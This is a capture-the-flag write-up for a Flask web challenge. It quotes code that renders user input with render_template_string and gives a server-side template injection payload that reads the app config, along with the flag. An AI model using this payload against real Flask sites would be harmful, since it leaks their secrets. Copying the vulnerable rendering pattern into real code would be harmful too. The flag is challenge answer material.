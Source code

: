 # bro_visited_his_site

**Difficulty**: Easy

**Points earned**: 343

**Description**:

```
bro stored his secrets in the flask app config

note: this is not /app/flag.txt - that's bro_visited_his_site_2

10 point hint: attack type

20 point hint: writeup for similar problem

Author: arepi

https://bro-visited-his-site.jellyc.tf/
```

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

**Solution**: 

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
```

I did some Googling and found a similar challenge: https://ctftime.org/writeup/11036.

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the URL bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

**Flag**: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`